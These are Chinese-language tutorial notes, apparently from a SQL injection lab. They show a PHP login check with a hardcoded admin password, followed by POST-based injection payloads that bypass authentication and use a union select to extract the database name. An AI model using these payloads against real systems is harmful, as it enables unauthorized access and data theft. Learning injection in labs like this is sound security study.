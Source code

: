 ```

<?php

$name = $_POST['uname'];
$pwd = $_POST['upwd'];

if($name=="admin"&&$pwd=="123"){
    echo "success";
}else{
    echo "fail";
}


?>


</body>
</html>
```

------

猜测源码

uname=xxxxx&passwd=xxxxxx

```
$u = $_POST['uname'];
$p = $_POST['passwd'];

方法1：

select username,password from table1 where username='$u' and password='$p' limit 0,1;

select username,password from table1 where username=' ' or 1=1 # ' and password='123' limit 0,1;

select username,password from table1 where username=' ' or 1=1 

select username,password from table1 where username=' ' union select 1,2 #  ' and password='$p' limit 0,1;

方法2：
burp
抓包之后，send to repater

uname=' union select 1,database() #&passwd=123&submit=Submit
```

------

## post盲注
